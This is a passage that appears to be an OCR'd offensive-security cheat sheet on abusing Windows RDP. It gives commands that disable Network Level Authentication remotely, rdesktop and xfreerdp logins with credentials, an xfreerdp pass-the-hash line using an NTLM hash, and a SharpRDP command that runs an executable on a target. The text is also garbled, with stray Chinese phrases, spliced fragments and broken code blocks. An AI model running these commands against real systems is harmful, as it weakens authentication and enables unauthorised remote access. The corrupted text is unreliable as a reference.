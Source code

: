 ```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
# Disable NLA
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```
[!] 支付。加载。使用权！
+Abuse RDP protocol to execute commands remotely with the following commands;
{void}
[1]
..
* `rdesktop`
    ```powershell
    >root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    >root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
* `freerdp` 
    ```powershell
    >root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    >root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash times two. 
    [USE]: 
    Restricted Admin: 
    [!] ERROR. ADMIN ACCOUNT. Not in the "Remote Desktop Users" group.
    # ARGUMENT PASS 
    {
    for Server 2012 R2 / Win 8.1+
    [REQUIRE]: 
    freerdp2-x11 freerdp2-shadow-x11 --pkg*freerdp-x11
    };
   Return,
>root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```
    +++
* [SharpRDP](https://github.com/0xthirteen/SharpRDP)
    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```


[DC01]: PS>